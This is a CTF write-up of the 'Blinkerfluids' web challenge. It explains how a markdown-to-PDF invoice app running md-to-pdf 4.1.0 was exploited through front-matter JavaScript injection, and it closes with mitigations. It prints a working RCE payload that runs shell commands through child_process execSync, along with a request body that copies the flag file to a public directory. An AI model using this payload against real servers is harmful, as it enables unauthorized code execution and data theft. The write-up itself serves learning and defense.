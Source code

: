 ```yaml
---
layout: default
title: Blinkerfluids
---
```


# [Cyber Apocalypse](index.md) - Web - Blinkerfluids

*I did not have the foresight to save screenshots or the challenge description while the CTF was active*.

In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```Dockerfile
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
So, I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```json
{
    "markdown_content" : "---jsn((require('child_process')).execSync('cat /flag > static/invoices/flag.txt'))n---RCE"
}
```
And response I got back was:
```json
{
    "message" : "Invoice saved successfully!"
}
```
Now all I needed to do was to visit `http://challenge-ip-and-port/static/flag.txt` to view the flag.

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.